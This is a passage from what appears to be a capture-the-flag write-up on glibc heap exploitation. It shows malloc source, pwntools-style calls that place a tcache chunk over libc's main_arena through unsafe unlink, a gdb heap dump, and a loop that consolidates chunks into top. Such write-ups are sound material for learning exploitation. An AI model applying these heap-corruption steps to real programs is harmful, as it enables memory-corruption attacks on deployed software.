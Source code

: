 ```c
                // Detailed inspection
                check_malloced_chunk (off, victim, nb);
                // Convert the requested chunk to the corresponding mem state
                void *p = chunk2mem(victim);
                // If perturb_type is set, the obtained chunk is initialized to perturb_type ^ 0xff
                alloc_perturb(p, bytes);
                return p;
            }
        }
    }

```

Calling malloc and now allocating the chunk which is in tcache as well as unsorted bin , hence we get a tcache chunk which is in libc `main_arena` struct due to unsafe unlink.

```py
secret(p64(heap_base + 0x1130))   
```



Let's take a look at memory layout after this.

```sh
gdb-peda$
0x555555559000:	0x0000000000000000	0x0000000000000251
0x555555559010:	0x0000000000000000	0x0000000000000000
0x555555559020:	0x0000000000000000	0x0000000000000000
0x555555559030:	0x0000000000000006	0x0000000000000000
0x555555559040:	0x0000000000000000	0x0100000000000000
0x555555559050:	0x0000000000000000	0x0000000000000000
0x555555559060:	0x0000000000000000	0x0000000000000000
0x555555559070:	0x0000000000000000	0x0000000000000000
0x555555559080:	0x0000000000000000	0x0000000000000000
0x555555559090:	0x0000000000000000	0x0000000000000000
0x5555555590a0:	0x0000000000000000	0x0000000000000000
0x5555555590b0:	0x0000000000000000	0x0000000000000000
0x5555555590c0:	0x0000000000000000	0x0000000000000000
0x5555555590d0:	0x0000000000000000	0x0000000000000000
0x5555555590e0:	0x0000000000000000	0x0000000000000000
0x5555555590f0:	0x0000000000000000	0x0000000000000000
0x555555559100:	0x0000000000000000	0x0000000000000000
0x555555559110:	0x0000000000000000	0x0000000000000000
0x555555559120:	0x0000000000000000	0x0000000000000000
0x555555559130:	0x0000000000000000	0x0000000000000000
0x555555559140:	0x0000000000000000	0x0000000000000000
0x555555559150:	0x00007ffff7fefeb0	0x0000000000000000 -> Victim chunk from main_arena
```

Now we consolidate 6 chunks of 0x200 size into top.

```py

for i in xrange(6):
    add(0,'4'*0x1f0)
    free(0)

```

